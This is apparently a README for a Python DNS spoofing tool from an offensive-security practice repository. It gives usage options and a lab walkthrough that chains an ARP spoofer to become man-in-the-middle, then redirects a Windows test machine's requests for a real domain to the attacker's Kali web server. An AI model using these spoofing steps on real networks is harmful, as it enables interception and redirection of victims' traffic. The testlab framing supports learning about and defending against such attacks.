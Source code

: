 # DNS Spoofer

## Requirements

* Python 2 or 3
* Scapy and netfilter modules
* Domain to be spoofed
* IP address webserver to redirect to

## Usage

```shell
usage: dns_spoofer.py [-h] [-d DOMAIN] [-r IP] [-q DESTINATION]

DNS spoof tool

optional arguments:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Domain to spoof
  -r IP, --ip IP        IP address to redirect to
  -q DESTINATION, --destination DESTINATION
                        Forward or local

Example: 
            dns_spoofer.py -q forward               # spoof domain on target (Windows)
            dns_spoofer.py -d sqa.fyicenter.com     # domain
            dns_spoofer.py -r 192.168.122.108       # redirection address
            dns_spoofer.py                          # with defaults local, apache2 and sqa.fyicenter.com
```

### Kicking the tyres

Choose a domain to spoof and check it is reachable:

```shell
@kali:~$ ping -c 1 sqa.fyicenter.com
PING sqa.fyicenter.com (74.208.236.35) 56(84) bytes of data.
64 bytes from 74-208-236-35.elastic-ssl.ui-r.com (74.208.236.35): icmp_seq=1 ttl=52 time=131 ms

--- sqa.fyicenter.com ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 131.125/131.125/131.125/0.000 ms

```

Become MitM by running the [arp_spoofer](/arp_spoofer)

```shell
@kali:~$ sudo python3 arp_spoofer.py
[sudo] password for <user>: 
[+] Setting forward
[+] Packets sent: 63
```

Run DNS spoofer:

```shell
@kali:~$ sudo python3 dns_spoofer.py -q forward
[+] Starting apache2 service...
              
```

On Windows testlab machine, visit http://sqa.fyicenter.com in browser and check that the Kali apache server comes up instead.

```shell
@kali:~$ sudo python3 dns_spoofer.py
[+] Starting apache2 service...
[+] Spoofing Target
                   
```

## Troubleshooting

* [ImportError on NetfilterQueue](https://github.com/tymyrddin/ymrir/wiki/netfilterqueue.md)
* [ImportError on Scapy](https://github.com/tymyrddin/ymrir/wiki/scapy.md)